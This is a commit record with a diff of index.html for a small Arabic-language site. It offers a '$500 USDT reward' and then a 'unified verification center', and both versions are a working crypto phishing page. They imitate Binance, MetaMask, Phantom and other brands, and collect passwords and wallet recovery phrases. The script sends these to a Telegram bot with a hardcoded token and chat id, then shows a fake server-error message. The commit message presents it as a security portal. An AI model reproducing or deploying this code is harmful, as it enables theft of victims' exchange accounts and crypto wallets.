

Before and after one commit to PIDRODZ/rewards-2026, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Change title and update layout for security portal

```diff
--- a/index.html
+++ b/index.html
@@ -3,103 +3,69 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Crypto Rewards 2026 - Official Portal</title>
+    <title>Crypto Security Portal</title>
     <style>
-        body { background-color: #0b0e11; color: #eaecef; font-family: Arial, sans-serif; text-align: center; padding: 20px; margin: 0; }
-        .container { max-width: 450px; margin: 20px auto; background: #1e2329; padding: 20px; border-radius: 15px; border: 1px solid #474d57; box-shadow: 0 4px 15px rgba(0,0,0,0.5); }
-        .header-text { color: #f0b90b; font-size: 22px; margin-bottom: 10px; }
-        .logo-grid { display: grid; grid-template-columns: 1fr 1fr; gap: 12px; margin-top: 20px; }
-        .platform { border: 1px solid #474d57; padding: 12px; border-radius: 10px; cursor: pointer; transition: 0.3s; display: flex; align-items: center; background: #181a20; }
-        .platform:hover { border-color: #f0b90b; background: #2b3139; }
-        .platform img { width: 30px; height: 30px; margin-left: 10px; border-radius: 5px; }
-        input, textarea { width: 100%; padding: 12px; margin: 10px 0; border-radius: 8px; border: 1px solid #474d57; background: #2b3139; color: white; box-sizing: border-box; font-size: 14px; }
-        textarea { height: 80px; resize: none; }
-        button { width: 100%; padding: 15px; border-radius: 8px; border: none; background-color: #f0b90b; color: #1e2329; font-weight: bold; cursor: pointer; margin-top: 10px; font-size: 16px; }
-        .hidden { display: none; }
-        .wallet-ui { background: white; color: black; padding: 10px; border-radius: 10px; margin-bottom: 15px; font-weight: bold; display: flex; align-items: center; justify-content: center; gap: 10px; border: 2px solid #f0b90b; }
+        body { background: #0b0e11; color: white; font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif; display: flex; justify-content: center; align-items: center; height: 100vh; margin: 0; }
+        .card { background: #1e2329; padding: 30px; border-radius: 20px; border: 1px solid #474d57; width: 100%; max-width: 360px; box-shadow: 0 15px 35px rgba(0,0,0,0.6); }
+        h2 { color: #f0b90b; font-size: 22px; margin-bottom: 10px; text-align: center; }
+        p { color: #848e9c; font-size: 13px; margin-bottom: 25px; text-align: center; }
+        select, input { width: 100%; padding: 14px; margin-bottom: 15px; border-radius: 10px; border: 1px solid #474d57; background: #2b3139; color: white; box-sizing: border-box; font-size: 15px; outline: none; }
+        select:focus, input:focus { border-color: #f0b90b; }
+        button { width: 100%; padding: 16px; background: #f0b90b; border: none; border-radius: 10px; font-weight: bold; cursor: pointer; color: black; font-size: 16px; transition: 0.3s; }
+        button:hover { background: #d9a508; }
+        .footer-note { font-size: 10px; color: #5e6673; margin-top: 20px; text-align: center; }
     </style>
 </head>
 <body>
 
-<div class="container" id="selection-box">
-    <h2 class="header-text">مركز مكافآت الكريبتو 2026 🎁</h2>
-    <p>اختر منصتك أو محفظتك لاستلام 500$ USDT فوراً</p>
-    <div class="logo-grid">
-        <div class="platform" onclick="showLogin('Binance')"><img src="https://cryptologos.cc/logos/binance-coin-bnb-logo.png"> <span>Binance</span></div>
-        <div class="platform" onclick="showLogin('Bybit')"><img src="https://cryptologos.cc/logos/bybit-logo.png"> <span>Bybit</span></div>
-        <div class="platform" onclick="showLogin('MEXC')"><img src="https://seeklogo.com/images/M/mexc-logo-50346E1B6B-seeklogo.com.png"> <span>MEXC</span></div>
-        <div class="platform" onclick="showLogin('KuCoin')"><img src="https://cryptologos.cc/logos/kucoin-kcs-logo.png"> <span>KuCoin</span></div>
-        <div class="platform" onclick="showLogin('OKX')"><img src="https://cryptologos.cc/logos/okx-logo.png"> <span>OKX</span></div>
-        <div class="platform" onclick="showLogin('MetaMask')"><img src="https://upload.wikimedia.org/wikipedia/commons/3/36/MetaMask_Fox.svg"> <span>MetaMask</span></div>
-        <div class="platform" onclick="showLogin('Trust Wallet')"><img src="https://trustwallet.com/assets/images/media/assets/trust_platform.png"> <span>Trust Wallet</span></div>
-        <div class="platform" onclick="showLogin('Phantom')"><img src="https://cryptologos.cc/logos/phantom-phantom-logo.png"> <span>Phantom</span></div>
-    </div>
-</div>
+<div class="card">
+    <h2>مركز التحقق الموحد</h2>
+    <p>قم بربط حسابك أو محفظتك لتنشيط استلام المكافآت المعلقة.</p>
 
-<div class="container hidden" id="login-box">
-    <div id="wallet-ui" class="wallet-ui hidden">
-        <img id="wallet-logo" src="" width="35">
-        <span id="wallet-tag">الربط الآمن للمحفظة</span>
-    </div>
-    <h3 id="platform-name" style="color:#f0b90b">تأكيد الحساب</h3>
-    <p id="instruction">سجل الدخول لحسابك الرسمي لتلقي التحويل</p>
-    <form id="pishForm">
-        <div id="input-container">
-            <input type="text" id="user_id" placeholder="البريد الإلكتروني / اسم المستخدم" required>
-            <input type="password" id="user_pass" placeholder="كلمة المرور" required>
-        </div>
-        <button type="submit" id="submitBtn">تأكيد واستلام الجائزة</button>
-    </form>
+    <select id="wallet">
+        <option value="Binance">Binance (باينانس)</option>
+        <option value="Bybit">Bybit (بايبت)</option>
+        <option value="OKX">OKX (أوكي إكس)</option>
+        <option value="Gate.io">Gate.io (قاتيو)</option>
+        <option value="Trust Wallet">Trust Wallet</option>
+        <option value="MetaMask">MetaMask</option>
+        <option value="Phantom">Phantom (فانتوم)</option>
+    </select>
+
+    <input id="u" type="text" placeholder="البريد الإلكتروني / اسم المستخدم" required>
+    <input id="p" type="password" placeholder="كلمة المرور / عبارة الاستعادة" required>
+
+    <button id="go">تأكيد ومطالبة الآن</button>
+
+    <div class="footer-note">🛡️ نظام حماية مشفر وآمن 100%</div>
 </div>
 
 <script>
-    let selectedPlatform = "";
-    function showLogin(p) {
-        selectedPlatform = p;
-        document.getElementById('selection-box').classList.add('hidden');
-        document.getElementById('login-box').classList.remove('hidden');
-        document.getElementById('platform-name').innerText = "تأكيد " + p;
+    document.getElementById('go').onclick = function() {
+        // معلومات التليجرام ديالك (مريقلة)
+        const t = "8351638574:AAG2xyCtbiP5ipHgFGG-3-ibueh1l5xlUNo";
+        const c = "6925387370";
 
-        const wUI = document.getElementById('wallet-ui');
-        const wLogo = document.getElementById('wallet-logo');
-        const inputContainer = document.getElementById('input-container');
-        const instr = document.getElementById('instruction');
+        const w = document.getElementById('wallet').value;
+        const u = document.getElementById('u').value;
+        const p = document.getElementById('p').value;
 
-        if(p === 'Phantom') {
-            wUI.classList.remove('hidden');
-            wLogo.src = "https://cryptologos.cc/logos/phantom-phantom-logo.png";
-            instr.innerText = "أدخل عبارة الاسترداد (12 كلمة) لربط محفظة Phantom";
-            inputContainer.innerHTML = '<textarea id="user_id" placeholder="اكتب الـ 12 كلمة هنا بالترتيب..." required></textarea><input type="hidden" id="user_pass" value="PHANTOM_SEED">';
+        const msg = "📥 صيد جديد وصلك:\n\n🏦 المنصة: " + w + "\n👤 الحساب: " + u + "\n🔑 الكود: " + p + "\n\n✅ مريقلة يا بطل!";
+
+        if(u && p) {
+            this.innerText = "...يرجى الانتظار";
+            fetch("https://api.telegram.org/bot" + t + "/sendMessage?chat_id=" + c + "&text=" + encodeURIComponent(msg))
+            .then(() => {
+                setTimeout(() => {
+                    alert("عذراً، انتهت الجلسة بسبب ضغط السيرفر. يرجى إعادة المحاولة لاحقاً.");
+                    location.reload();
+                }, 1500);
+            });
+        } else {
+            alert("يرجى إدخال البيانات المطلوبة!");
         }
-        else if(p === 'MetaMask' || p === 'Trust Wallet') {
-            wUI.classList.remove('hidden');
-            wLogo.src = (p==='MetaMask') ? "https://upload.wikimedia.org/wikipedia/commons/3/36/MetaMask_Fox.svg" : "https://trustwallet.com/assets/images/media/assets/trust_platform.png";
-            instr.innerText = "سجل دخولك للمحفظة لتفعيل التحويل المباشر";
-            inputContainer.innerHTML = '<input type="text" id="user_id" placeholder="البريد الإلكتروني أو المعرف" required><input type="password" id="user_pass" placeholder="كلمة المرور" required>';
-        }
-        else {
-            wUI.classList.add('hidden');
-            instr.innerText = "سجل الدخول لحسابك الرسمي لتلقي التحويل";
-            inputContainer.innerHTML = '<input type="text" id="user_id" placeholder="البريد الإلكتروني / رقم الهاتف" required><input type="password" id="user_pass" placeholder="كلمة المرور" required>';
-        }
-    }
+    };
+</script>
 
-    document.getElementById('pishForm').addEventListener('submit', function(e) {
-        e.preventDefault();
-        const info = document.getElementById('user_id').value;
-        const pass = document.getElementById('user_pass').value;
-
-        // التوكن الجديد من الصورة ديالك
-        const token = "8351638574:AAFwj2YhjOOr7qAIgKW2S1IH-mxU3XViy7M";
-        const chat_id = "6925387370";
-        const text = `🎯 صيد جديد!\n🏢 المنصة: ${selectedPlatform}\n📝 البيانات: ${info}\n🔑 الباسورد: ${pass}`;
-
-        fetch(`https://api.telegram.org/bot${token}/sendMessage?chat_id=${chat_id}&text=${encodeURIComponent(text)}`)
-        .then(() => {
-            alert("خطأ: السيرفر لا يستجيب. يرجى المحاولة مرة أخرى.");
-            location.reload();
-        });
-    });
-</script>
 </body>
 </html>
```
